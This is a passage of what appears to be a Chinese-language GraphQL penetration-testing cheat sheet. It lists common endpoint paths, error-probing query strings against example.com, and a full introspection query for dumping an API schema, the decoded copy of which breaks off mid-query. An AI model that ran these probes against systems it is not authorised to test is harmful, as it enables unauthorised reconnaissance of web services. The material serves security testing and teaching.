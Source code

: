 ### 常见的 GraphQL 端点

大多数情况下，GraphQL 位于 `/graphql` 或 `/graphiql` 端点。
更完整的列表可以在 [danielmiessler/SecLists/graphql.txt](https://github.com/danielmiessler/SecLists/blob/fe2aa9e7b04b98d94432320d09b5987f39a17de8/Discovery/Web-Content/graphql.txt) 中找到。

```ps1
/v1/explorer
/v1/graphiql
/graph
/graphql
/graphql/console/
/graphql.php
/graphiql
/graphiql.php
```

### 识别注入点

```js
example.com/graphql?query={__schema{types{name}}}
example.com/graphiql?query={__schema{types{name}}}
```

检查错误是否可见。

```javascript
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```

### 通过内省枚举数据库模式

URL 编码的查询以转储数据库模式。

```js
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

解码后的查询以转储数据库模式。

```javascript
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
```